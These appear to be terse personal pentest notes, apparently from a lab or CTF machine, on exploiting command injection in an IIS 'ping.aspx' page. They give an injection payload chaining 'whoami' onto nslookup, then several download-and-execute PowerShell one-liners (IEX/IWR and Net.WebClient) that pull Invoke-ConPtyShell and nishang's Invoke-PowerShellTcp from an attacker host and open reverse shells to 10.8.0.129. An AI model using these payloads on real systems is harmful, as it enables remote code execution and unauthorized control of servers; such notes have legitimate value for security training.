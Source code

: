 - file extension and language : asp
 - aspx,asp,htm,config
  - ping.aspx
    - command injection 
    - script language: C#
    - whatfunction? arp -a ?
      - ![alt text](image-1.png)
      - cmd.exe /c nslookup <arg>
        - nslookup 172.31.193.213&&whoami
        
- iis apppool\defaultapppool : webserver account, it's different host name?, ec2 instance?, 
  - no it's the same host because of the same IP
  - no it's the same hostname : brute ,but iis apppool is domain name I guess 
  - what kind of attack does it can? with this service account/user, what kind of privilege does it have?
   
- what do you have?
  - it doesn't have nc.exe or ncat.exe
  - wget /? 2>&1
    - stdout no
  - load conpty powershell script(ps1) IEX 
```
IEX(IWR https://KALI_IP/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.8.0.129 1234

IEX(IWR http://10.8.0.129/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.8.0.129 1234

  - IEX not working in cmd
powershell IEX(IWR http://10.8.0.129/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.8.0.129 1234
  - it's working but not well

```
  - powershell
    - just execute powershell command
    or go to powershell, and then execute 
      - powershell -nop -c 'commands'
    - powershell script(powershell-reverse-shell.ps1) download from the internet(github or revshells.com > KALI) and then execute rightaway(KALI) 
      - nishang powershell reverse shell - Invoke-PowerShellTcp.ps1
```
KALI
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1


powershell -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.8.0.129/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.8.0.129 -Port 4445
```
  - it's better than executing powershell commadns right away(it makes mess)
    - or download ps1 on writable dir, and execute ps1
```
powershell wget http://10.8.0.129/Invoke-PowerShellTcp.ps1 -outfile .\Invoke-PowerShellTcp.ps1
  - access denied

```